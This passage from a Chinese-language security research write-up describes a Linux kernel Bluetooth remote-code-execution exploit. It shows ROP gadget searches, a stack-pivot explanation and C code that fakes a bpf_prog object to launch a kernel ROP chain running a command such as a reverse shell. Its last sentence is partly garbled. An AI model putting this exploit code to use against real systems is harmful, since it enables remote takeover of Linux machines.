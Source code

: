 ```c
$ cat gadgets.txt | grep ": mov rsp.*ret"
0xffffffff8109410c : mov rsp, qword ptr [rip + 0x15bb0fd] ; pop rbx ; pop rbp ; ret
0xffffffff810940c2 : mov rsp, qword ptr [rsp] ; pop rbp ; ret
0xffffffff8108ef0c : mov rsp, rbp ; pop rbp ; ret
```

也许会有一些像 `push rsi ; pop rsp ; ret` 这样的？

```c
$ cat gadgets.txt | grep ": push rsi.*pop rsp.*ret"
0xffffffff81567f46 : push rsi ; adc al, 0x57 ; add byte ptr [rbx + 0x41], bl ; pop rsp ; pop rbp ; ret
0xffffffff8156a128 : push rsi ; add byte ptr [rbx + 0x41], bl ; pop rsp ; pop r13 ; pop rbp ; ret
0xffffffff81556cad : push rsi ; add byte ptr [rbx + 0x41], bl ; pop rsp ; pop rbp ; ret
0xffffffff81c02ab5 : push rsi ; lcall [rbx + 0x41] ; pop rsp ; pop rbp ; ret
0xffffffff8105e049 : push rsi ; sbb byte ptr [rbx + 0x41], bl ; pop rsp ; pop rbp ; ret
0xffffffff81993887 : push rsi ; xchg eax, ecx ; lcall [rbx + 0x41] ; pop rsp ; pop r13 ; pop rbp ; ret
```

太好了，有很多 gadgets 可以用。有趣的是，所有 gadgets 都解引用 RBX+0x41 ，这很可能是常用指令或指令序列的一部分。具体来说，由于指令在 x86 中可以从任何字节开始，因此它们可以根据开始字节位置进行不同的解释。RBX+0x41的解引用实际上可能会阻碍我们使用 gadgets ——也就是说，如果 RBX 在执行 `bpf_func()`时不包含可写内存地址，我们就会在执行 ROP 链之前陷入 painc 。在我们的例子中，幸运的是，RBX 指向结构`amp_mgr`对象，并且如果偏移量 0x41 处的字节被更改，就不会有问题。

当选择 `stack pivot gadget`作为 `bpf_func()` 的函数指针并触发它时， RSI 的值将被压入栈中，然后从栈中弹出，最后赋值给 RSP 。换句话说，堆栈指针将指向我们的有效负载，一旦 RET 指令被执行，我们的 ROP 链将启动。

```c
static void build_payload(uint8_t data[0x400]) {
  // Fake sk_filter object starting at offset 0x300.
  *(uint64_t *)&data[0x318] = l2cap_chan_addr + 0x320;  // prog

  // Fake bpf_prog object starting at offset 0x320.
  // RBX points to the amp_mgr object.
  *(uint64_t *)&data[0x350] =
      kaslr_offset +
      PUSH_RSI_ADD_BYTE_PTR_RBX_41_BL_POP_RSP_POP_RBP_RET;  // bpf_func
  *(uint64_t *)&data[0x358] = 0xDEADBEEF;                   // rbp

  // Build kernel ROP chain that executes run_cmd() from kernel/reboot.c.
  // Note that when executing the ROP chain, the data below in memory will be
  // overwritten. Therefore, the argument should be located after the ROP chain.
  build_krop_chain((uint64_t *)&data[0x360], l2cap_chan_addr + 0x3c0);
  strncpy(&data[0x3c0], remote_command, 0x40);
}
```

有了这些，我们终于实现了RCE。为了调试我们的 `stack pivot` 并看看我们是否成功，我们可以设置`(uint64_t)&data[0x360]=0x41414141`并观察一个可控的 painc 。

### 内核ROP链执行

现在，我们可以编写一个大的 ROP 链来检索和执行 C 负载，也可以编写一个小的 ROP 链来运行任意命令。为了进行 POC 证明，我们已经满足于使用反向 shell 的条件,因此执行一个命令就足够了。受 CVE-2019-18683: Exploiting a Linux kernel vulnerability in the V4L2 subsystem<sup>[17]</sup>（利用 Linux 中的 V4L2 子系统内核漏洞）中描述的ROP链的启发我们将构建一个链，用 `/bin/bash -c /bin/bash`之后，蓝牙将不再工作。在更复杂的攻击中，我们将继续执行。
